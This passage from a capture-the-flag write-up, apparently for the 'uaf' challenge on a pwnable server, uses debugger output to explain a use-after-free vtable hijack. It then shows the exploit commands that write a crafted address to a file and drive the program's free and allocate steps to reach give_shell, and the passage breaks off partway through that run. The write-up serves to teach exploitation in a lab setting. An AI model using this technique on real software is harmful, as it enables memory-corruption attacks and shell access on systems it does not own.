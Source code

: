 ```bash
0x00007ffc312befe8│+0x0038: 0x00007f6163ebf7a5  →  <std::ios_base::Init::Init()+1701> mov 0x163b0c(%rip), %rax        # 0x7f61640232b8
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400fc8 <main+260>       jmp    0x4010a9 <main+485>
     0x400fcd <main+265>       mov    -0x38(%rbp), %rax
     0x400fd1 <main+269>       mov    (%rax), %rax
 →   0x400fd4 <main+272>       add    $0x8, %rax
     0x400fd8 <main+276>       mov    (%rax), %rdx
     0x400fdb <main+279>       mov    -0x38(%rbp), %rax
     0x400fdf <main+283>       mov    %rax, %rdi
     0x400fe2 <main+286>       call   *%rdx
     0x400fe4 <main+288>       mov    -0x30(%rbp), %rax
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "uaf", stopped 0x400fd4 in main (), reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400fd4 → main()
```

We can see `rax` is exactly the memory we displayed prior to verifying this, `0x000000000040117a`, then it adds 8 bytes to it and calls `introduce` (`call *%rdx`).

So we now know how the program calls `introduce`, it points to the vtable of that object, adds 8 bytes and performs a call on that address.
We also know that the first 8 bytes of the vtable is the address of `give_shell`, so intuitively, it makes sense to make the program think the vtable address is the actual vtable 
address minus 8 bytes, right? (`0x401570 - 0x08` = `0x401568`)


So if we free the objects, then allocate memory there and make sure it starts with `0x401568`, this would cause a `give_shell` call.

But before we try this out, it's important to remember that fast-bins work using a LIFO linked list, which means that the first free chunk we would allocate is also the 
latest one we freed, This means that if we free `m` and then `w`, we would need to allocate our controlled content twice in a row, first allocation would occupy the freed memory by `w` and the second one would occupy the memory of `m`, which is also the first one to call `introduce`.

This also explains why our previous demonstration showed that after one allocation the freed memory of `w` was the one allocated.

Time to exploit:

```bash
uaf@pwnable:~$ echo -ne "\x68\x15\x40\x00" > /tmp/wwww
uaf@pwnable:~$ ./uaf 4 /tmp/wwww
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
```